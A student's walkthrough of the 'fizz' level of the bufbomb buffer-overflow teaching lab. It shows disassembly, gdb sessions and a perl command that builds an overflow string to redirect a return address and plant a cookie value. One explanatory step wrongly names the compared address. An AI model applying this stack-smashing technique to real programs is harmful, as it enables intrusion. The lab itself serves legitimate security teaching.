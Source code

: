 Goal = change the return address and but also give your "id" within the buffer overflow.

To find the address of function ```fizz()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find fizz:

```
0804905f <fizz>:
 804905f:       55                      push   %ebp
 8049060:       89 e5                   mov    %esp,%ebp
 8049062:       83 ec 18                sub    $0x18,%esp
 8049065:       8b 45 08                mov    0x8(%ebp),%eax # <=== 1)
 8049068:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax # <=== 2)
 804906e:       75 1e                   jne    804908e <fizz+0x2f> # <=== 3)
 8049070:       89 44 24 04             mov    %eax,0x4(%esp)
 8049074:       c7 04 24 87 9f 04 08    movl   $0x8049f87,(%esp)
 804907b:       e8 60 f8 ff ff          call   80488e0 <printf@plt>
 8049080:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8049087:       e8 48 00 00 00          call   80490d4 <validate>
 804908c:       eb 10                   jmp    804909e <fizz+0x3f>
 804908e:       89 44 24 04             mov    %eax,0x4(%esp)
 8049092:       c7 04 24 80 a1 04 08    movl   $0x804a180,(%esp)
 8049099:       e8 42 f8 ff ff          call   80488e0 <printf@plt>
 804909e:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 80490a5:       e8 e6 f8 ff ff          call   8048990 <exit@plt>
```
<b>write down the address of fizz. Mine is 0804905f</b>

1) at 8049065 the value at %esp+8 is being stored into %eax by the mov instruction.
2) the value stored in %eax is compared to the value at address 0x804908e.
   
0x804908e is where the cookie for id "quinnliu" has been stored.

When the comp instruction executes, cmp will set an EFLAG based on the results of the compare.

3) the jne(jump if not equal) instruction jumps to 0x804908e depending the the state of the
EFlag. When the cmp instruction compares 2 values that are equal then the ZF flag = 1 within EFLAGS. 
and the jump will not occur. 

More specific goal = push the address of fizz onto the stack, place the cookie produced by
the id "quinnliu" at the location 0x8(%ebp) 

Now create this new file with the address of fizz you wrote down earlier:
```
unix> perl -e 'print "61 "x44, "5f 90 04 08 ", "BB "x4, "CC "x4 '>hexlevel1
unix> ./hex2raw < hexlevel1 > raw
```
Note that "61 " is added 44 times instead of 32 like in level 0.

Now type:
```
unix> gdb bufbomb
(gdb) break fizz
(gdb) run -u quinnliu < raw
(gdb) disas
```

Which gives you:
```
(gdb) run -u quinnliu < raw
Starting program: /home/ugrads/majors/quinnliu/Desktop/ComputerOrganizationII/buflab-handout/bufbomb -u quinnliu < raw
Userid: quinnliu
Cookie: 0x2d8cc70c # <============================================== WRITE DOWN

Breakpoint 1, 0x08049065 in fizz ()
Missing separate debuginfos, use: debuginfo-install glibc-2.12-1.47.el6_2.5.i686
(gdb) disas
Dump of assembler code for function fizz:
   0x0804905f <+0>:     push   %ebp
   0x08049060 <+1>:     mov    %esp,%ebp
   0x08049062 <+3>:     sub    $0x18,%esp
=> 0x08049065 <+6>:     mov    0x8(%ebp),%eax
   0x08049068 <+9>:     cmp    0x804c1e4,%eax
   0x0804906e <+15>:    jne    0x804908e <fizz+47>
   0x08049070 <+17>:    mov    %eax,0x4(%esp)
   0x08049074 <+21>:    movl   $0x8049f87,(%esp)
   0x0804907b <+28>:    call   0x80488e0 <printf@plt>
   0x08049080 <+33>:    movl   $0x1,(%esp)
   0x08049087 <+40>:    call   0x80490d4 <validate>
   0x0804908c <+45>:    jmp    0x804909e <fizz+63>
   0x0804908e <+47>:    mov    %eax,0x4(%esp)
   0x08049092 <+51>:    movl   $0x804a180,(%esp)
   0x08049099 <+58>:    call   0x80488e0 <printf@plt>
   0x0804909e <+63>:    movl   $0x0,(%esp)
   0x080490a5 <+70>:    call   0x8048990 <exit@plt>
End of assembler dump.
```

<b>write down the Cookie address. Mine is 0x2d8cc70c</b>

Now type:
```(gdb) i r``` 

And you will get:

```
(gdb) i r
eax            0x1      1
ecx            0xa      10
edx            0x654334 6636340
ebx            0x0      0
esp            0x5568333c       0x5568333c
ebp            0x55683354       0x55683354
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8049065        0x8049065 <fizz+6>
eflags         0x216    [ PF AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99

```

Now we take the address at %ebp and add 0x8 to get the address of where it will grab the value to compare to the cookie "quinnliu"

addressAt%ebp = 0x55683354

addressAt%ebp+8 = 0x55683354 + 0x8 using the hex calculator from level 0
                = 0x5568335C

Now type:
```(gdb) x/ 0x5568335C```

Gives you:
```
(gdb) x/ 0x5568335C
0x5568335c <_reserved+1037148>: -858993460
```

Now type ```x/20x $esp``` to examine the stack.

Gives you:
```
(gdb) x/20x $esp
0x5568333c <_reserved+1037116>: 0x61616161      0x61616161      0x61616161      0x61616161
0x5568334c <_reserved+1037132>: 0x61616161      0x61616161      0x61616161      0xbbbbbbbb
0x5568335c <_reserved+1037148>: 0xcccccccc      0x55686000      0x00000c60      0x55685ff0
0x5568336c <_reserved+1037164>: 0x00510610      0x006534e0      0x37ba3039      0x5568338c
0x5568337c <_reserved+1037180>: 0x00000000      0x55685ff0      0x08048d3c      0x08049f3b
```

By examining the stack we can see where -858993460 sits in relation to our buffer overflow.

In the buffer overlow I will be replacing the "0xcccccccc" with the cookie I wrote down earlier.

0x2d8cc70c # I told you to write it down earlier

Now convert to little endian format

 Original hex id: 0x 2d 8c c7 0c
little endian id: 0x 0c c7 8c 2d